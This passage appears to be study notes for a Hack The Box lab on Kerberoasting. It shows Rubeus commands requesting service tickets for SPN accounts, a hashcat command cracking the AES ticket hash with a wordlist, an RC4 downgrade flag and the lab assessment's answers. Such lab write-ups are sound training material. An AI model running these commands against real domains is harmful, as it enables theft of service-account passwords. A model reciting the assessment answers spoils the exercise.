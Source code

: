 the `msDS-SupportedEncryptionTypes attribute` is set to `24`, meaning that AES 128/256 encryption types are the only ones supported.

**Requesting a New Ticket**

```powershell-session
PS C:\htb>  .\Rubeus.exe kerberoast /user:testspn /nowrap

[*] Hash                   : $krb5tgs$18$testspn$INLANEFREIGHT.LOCAL$*testspn/kerberoast.inlanefreight.local@INLANEFREIGHT.LOCAL*$8939F8C5B97A4CAA170AD706$84
```

**Running Hashcat & Checking the Status of the Cracking Job**

```shell-session
carbonlky@htb[/htb]$ hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 
```

We can use Rubeus with the `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket.

## Assessment

**What is the name of the service account with the SPN 'vmware/inlanefreight.local'?**

```
Get-DomainUser * -spn | select samaccountname, serviceprincipalname
```

<figure><img src="../../../.gitbook/assets/image (14) (2) (1).png" alt=""><figcaption><p>svc_vmwaresso:vmware/inlanefreight.local</p></figcaption></figure>

**Crack the password for this account and submit it as your answer.**

```
.\Rubeus.exe kerberoast /nowrap /user:svc_vmwaresso
```
